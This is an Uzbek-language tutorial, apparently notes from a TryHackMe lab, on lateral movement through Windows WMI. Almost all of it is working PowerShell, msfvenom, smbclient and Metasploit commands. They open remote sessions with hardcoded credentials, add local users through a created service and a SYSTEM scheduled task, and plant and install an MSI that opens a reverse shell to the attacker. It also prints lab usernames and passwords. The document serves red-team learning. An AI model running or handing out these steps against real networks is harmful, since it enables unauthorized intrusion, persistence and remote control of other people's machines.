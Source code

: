 
## 🔍 WMI nima?

**WMI (Windows Management Instrumentation)** — bu Windows operatsion tizimi tomonidan qo'llab-quvvatlanadigan texnologiya bo‘lib, u orqali masofaviy kompyuterlarni boshqarish mumkin. Administratorlar tizim holatini nazorat qiladi, xizmatlarni yaratadi, fayllarni ishga tushiradi... va **xuddi shu narsalarni hujumchilar ham suiste’mol qilishlari mumkin** — aynan lateral movement (tarmoqda oldinga yurish) maqsadida.

---

## 📌 PowerShell orqali WMI sessiyasi ochish

1. **Avval credential (login ma'lumotlari) yaratiladi:**

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

2. **So'ng WMI sessiya yaratiladi:**

```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

🔹 `TARGET` — bu siz kirishni xohlagan kompyuter nomi (masalan, `thmiis.za.tryhackme.com`)

---

## 🧨 Uzoqdan Process (dastur) ishga tushirish

Quyidagi buyruq orqali siz masofaviy tizimda PowerShell yordamida fayl yaratishingiz mumkin:

```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
    CommandLine = $Command
}
```

🧠 Bu buyruq siz ko'rmaydigan tarzda fon rejimida bajariladi.

---

## 🔧 WMI orqali xizmat (service) yaratish

Yangi xizmat yaratish (misol uchun foydalanuvchi qo‘shish uchun):

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
    Name = "THMService2";
    DisplayName = "THMService2";
    PathName = "net user munra2 Pass123 /add"; # Payload
    ServiceType = [byte]::Parse("16"); # Yangi jarayon sifatida ishlaydi
    StartMode = "Manual"
}
```

Keyin xizmatni ishga tushiring, to‘xtating va o‘chiring:

```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"
Invoke-CimMethod -InputObject $Service -MethodName StartService
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

---

## ⏰ Rejalashtirilgan vazifalar (Scheduled Tasks) yaratish

```powershell
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

Keyin uni o‘chirish:

```powershell
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

---

## 📦 MSI faylni o‘rnatish orqali hujum

1. **Payload (zararli fayl) yaratish:**

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstaller.msi
```

2. **Targetga nusxa ko‘chirish (SMB orqali):**

```bash
smbclient -c 'put myinstaller.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
```

> Fayl `C:\Windows\myinstaller.msi` ga joylashtiriladi.

3. **Metasploitda listener ishga tushirish:**

```bash
use exploit/multi/handler
set payload windows/x64/shell_reverse_tcp
set LHOST lateralmovement
set LPORT 4445
exploit
```

4. **Endi PowerShell orqali bu MSI faylni masofadan o‘rnatish:**

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{
    PackageLocation = "C:\Windows\myinstaller.msi"; 
    Options = ""; 
    AllUsers = $false
}
```

✅ Agar to‘g‘ri bajarilgan bo‘lsa, sizga **reverse shell** ochiladi va nishon (target) mashinadan ulanish keladi.

---

## 🔚 Xulosa

Yuqoridagilarning barchasi — **WMI orqali masofaviy tizimda ishlov berish, foydalanuvchi qo‘shish, xizmat yoki dastur ishga tushurish,** va **zararli fayl o‘rnatish** bo‘yicha real hujum amaliyoti.

🛡 Bu bilimlar **Red Teaming, Penetration Testing,** va **lateral movement** asoslarini tushunish uchun juda muhim.

Agar xohlasangiz, men sizga ushbu har bir bo‘lim uchun amaliy topshiriq ham tuzib bera olaman. Yordam kerak bo‘lsa, so‘rashingiz kifoya.
